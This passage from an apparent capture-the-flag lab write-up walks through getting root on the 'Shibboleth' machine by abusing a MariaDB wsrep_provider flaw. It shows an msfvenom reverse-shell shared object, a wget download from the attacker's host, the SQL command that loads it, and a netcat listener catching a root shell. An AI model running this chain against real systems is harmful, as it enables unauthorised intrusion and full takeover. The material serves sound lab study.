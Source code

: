 To exploit this CVE, I’ll need a shared object (Linux’s version of a DLL),
which I can create with `msfvenom`:

    
    
    oxdf@hacky$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f elf-so -o rev.so
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 74 bytes
    Final size of elf-so file: 476 bytes
    Saved as: rev.so
    

I’ll move this to Shibboleth by starting a Python webserver (`python3 -m
http.server 80`) on my VM in the folder with `rev.so` and then requesting it
with `wget`:

    
    
    ipmi-svc@shibboleth:/dev/shm$ wget 10.10.14.6/rev.so
    --2022-03-31 13:40:35--  http://10.10.14.6/rev.so
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 476 [application/octet-stream]
    Saving to: ‘rev.so’
    
    rev.so                                                 100%[========================================================>]     476  --.-KB/s    in 0.001s  
    
    2022-03-31 13:40:35 (509 KB/s) - ‘rev.so’ saved [476/476]
    

#### Execute

Now I just run the command in `mysql` to load the so which executes it:

    
    
    MariaDB [(none)]> SET GLOBAL wsrep_provider="/dev/shm/rev.so";
    ERROR 2013 (HY000): Lost connection to MySQL server during query
    

At my host, there’s a connection:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.124 48960
    

It’s raw, there’s no prompt, but I can run commands:

    
    
    id
    uid=0(root) gid=0(root) groups=0(root)
    

Shell upgrade makes it nicer:

    
    
    script /dev/null -c bash
    Script started, file is /dev/null
    root@shibboleth:/var/lib/mysql# ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    root@shibboleth:/var/lib/mysql#
    